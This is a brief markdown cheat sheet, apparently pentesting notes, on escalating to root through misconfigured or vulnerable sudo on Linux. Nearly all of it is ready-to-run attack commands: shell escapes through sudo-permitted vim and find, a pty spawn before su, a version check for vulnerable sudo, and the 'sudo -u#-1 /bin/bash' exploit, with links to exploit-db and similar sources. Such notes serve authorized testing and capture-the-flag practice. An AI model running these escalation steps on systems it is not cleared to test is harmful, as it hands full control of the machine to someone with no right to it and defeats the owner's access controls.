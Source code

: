# Restricted Sudo: Privilege Escalation

1. If sudo allows **vim**

        sudo -l
        sudo vim <target_filename>
        :!/bin/bash

2. If sudo allows **find**

        sudo -l
        sudo find / -exec /bin/bash \;

3. If you have guessed password of **another user**

        $ python -c "import pty;pty.spawn('/bin/bash');"
        $ su username

## Vulneranble SUDO Version

* Check if the current **version** of **sudo** is vulnerable

        sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

    If an output is obtained from the above command, then the installed sudo utility can be exploited to [gain root access](https://www.exploit-db.com/exploits/47502) on the target machine. 

        $ sudo -u#-1 /bin/bash

## References

* https://linuxaria.com/howto/linux-shell-how-to-use-the-exec-option-in-find-with-examples
* https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
* https://www.sudo.ws/alerts/pwfeedback.html
* https://arstechnica.com/information-technology/2020/02/serious-flaw-that-lurked-in-sudo-for-9-years-finally-gets-a-patch/
* https://www.exploit-db.com/exploits/47502
* https://devrant.com/rants/2282980/dont-quite-get-this-theres-some-bug-where-u-run-sudo-u-1-cmd-it-lets-you-run-it